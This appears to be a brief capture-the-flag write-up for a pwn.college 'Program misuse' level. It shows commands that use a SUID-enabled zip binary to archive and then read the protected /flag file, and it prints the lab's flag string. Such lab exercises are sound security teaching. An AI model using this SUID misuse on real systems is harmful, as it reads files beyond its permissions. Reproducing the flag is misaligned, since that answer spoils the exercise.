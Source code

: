 # pwn.college - Fundamentals - Program misuse - Level 19
```
$ /challenge/babysuid_level19
```
The SUID bit on `/usr/bin/zip` is set
```
$ zip archive /flag
$ unzip archive.zip
$ cat flag
```
`pwn.college{k7z2UMM0Bn2fCRj8MoU1BwPz7Hu.0VM2EDLyYjNyEzW}`